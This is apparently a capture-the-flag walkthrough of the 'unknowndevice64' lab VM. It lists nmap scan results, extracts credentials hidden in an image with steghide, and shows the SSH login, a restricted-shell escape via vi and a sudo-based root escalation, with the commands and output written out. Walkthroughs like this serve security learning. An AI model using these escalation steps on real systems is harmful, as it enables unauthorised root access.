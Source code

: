 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
[+] Content Discovery
[+] Steghide extract credentials from picture
[+] Escape restricted shell with vi
[+] Privilege Escalation Abusing SUDO rights -  sysud64 - 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Scan Results

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Nmap scan report for pumpkins.local (192.168.56.104)
Host is up (0.00082s latency).
Not shown: 999 closed ports
PORT      STATE SERVICE VERSION
31337/tcp open  http    SimpleHTTPServer 0.6 (Python 2.7.14)
|_http-server-header: SimpleHTTP/0.6 Python/2.7.14
|_http-title:    Website By Unknowndevice64   
MAC Address: 08:00:27:36:D1:DD (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop


Nmap scan report for pumpkins.local (192.168.56.104)
Host is up (0.000089s latency).
Not shown: 65533 closed ports
PORT      STATE SERVICE
1337/tcp  open  waste
31337/tcp open  Elite
MAC Address: 08:00:27:36:D1:DD (Oracle VirtualBox virtual NIC)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Browsing to http://192.168.56.104/31337 we found a hint to the hidden key file

Getting the file

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    wget http://192.168.56.104:31337/key_is_h1dd3n.jpg
--2019-10-21 08:55:01--  http://192.168.56.104:31337/key_is_h1dd3n.jpg
Connecting to 192.168.56.104:31337... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5386 (5.3K) [image/jpeg]
Saving to: ‘key_is_h1dd3n.jpg’

key_is_h1dd3n.jpg   100%[===================>]   5.26K  --.-KB/s    in 0s      

2019-10-21 08:55:01 (330 MB/s) - ‘key_is_h1dd3n.jpg’ saved [5386/5386]

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Extracting the secret from file, using password h1d33n + tool: steghide

Credentials :
Username : ud64
Password : 1M!#64@ud

Logging into the server:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# ssh ud64@192.168.56.104 -p 1337
ud64@192.168.56.104's password: 
Last login: Mon Dec 31 08:37:58 2018 from 192.168.56.101
ud64@unknowndevice64_v1:~$ whoami; id
ud64
uid=1000(ud64) gid=1000(ud64) groups=1000(ud64)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Escaping restricted shell with vi +  export PATH and SHELL

Privilege escalation

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
bash-4.4$ sudo -l
User ud64 may run the following commands on unknowndevice64_v1:
    (ALL) NOPASSWD: /usr/bin/sysud64

bash-4.4$ sudo /usr/bin/sysud64 -o /dev/null /bin/sh
sh-4.4# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
